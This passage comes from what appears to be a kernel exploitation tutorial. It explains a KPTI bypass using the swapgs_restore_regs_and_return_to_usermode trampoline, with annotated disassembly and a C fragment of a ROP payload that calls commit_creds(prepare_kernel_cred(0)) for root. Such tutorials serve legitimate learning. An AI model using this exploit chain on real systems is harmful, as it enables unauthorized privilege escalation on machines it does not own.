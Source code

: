 As you can see, it first recovers a lot of registers by popping from the stack. However, what we are actually interested in is the parts where it swaps the page tables, `swapgs` and `iretq`, and not this part. Simply ROP into the start of this function works fine, but it will unnecessarily enlarge our ROP chain due to a lot of dummy registers need to be inserted. As a result, our `KPTI trampoline` will be at `swapgs_restore_regs_and_return_to_usermode + 22` instead, which is the address of the first `mov`.

After the initial registers restoration, below are the parts that are useful to us:

```
.text:FFFFFFFF81200F89 loc_FFFFFFFF81200F89:
.text:FFFFFFFF81200F89                               pop     rax
.text:FFFFFFFF81200F8A                               pop     rdi
.text:FFFFFFFF81200F8B                               call    cs:off_FFFFFFFF82040088
.text:FFFFFFFF81200F91                               jmp     cs:off_FFFFFFFF82040080
...
.text.native_swapgs:FFFFFFFF8146D4E0                 push    rbp
.text.native_swapgs:FFFFFFFF8146D4E1                 mov     rbp, rsp
.text.native_swapgs:FFFFFFFF8146D4E4                 swapgs
.text.native_swapgs:FFFFFFFF8146D4E7                 pop     rbp
.text.native_swapgs:FFFFFFFF8146D4E8                 retn
...
.text:FFFFFFFF8120102E                               mov     rdi, cr3
.text:FFFFFFFF81201031                               jmp     short loc_FFFFFFFF81201067
...
.text:FFFFFFFF81201067                               or      rdi, 1000h
.text:FFFFFFFF8120106E                               mov     cr3, rdi
...
.text:FFFFFFFF81200FC7                               iretq


```

Notice that there are 2 extra pops at the start, so we still have to put in our chain 2 dummy values. The other snippets is where it `swapgs`, swaps page tables by modifying control register `CR3`, and finally `iretq`. We will tweak the final part of our ROP chain from `SWAPGS|IRETQ|RIP|CS|RFLAGS|SP|SS` to `KPTI_trampoline|dummy RAX|dummy RDI|RIP|CS|RFLAGS|SP|SS`:

```
void overflow(void){
    // ...
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;
    // ...
}


```
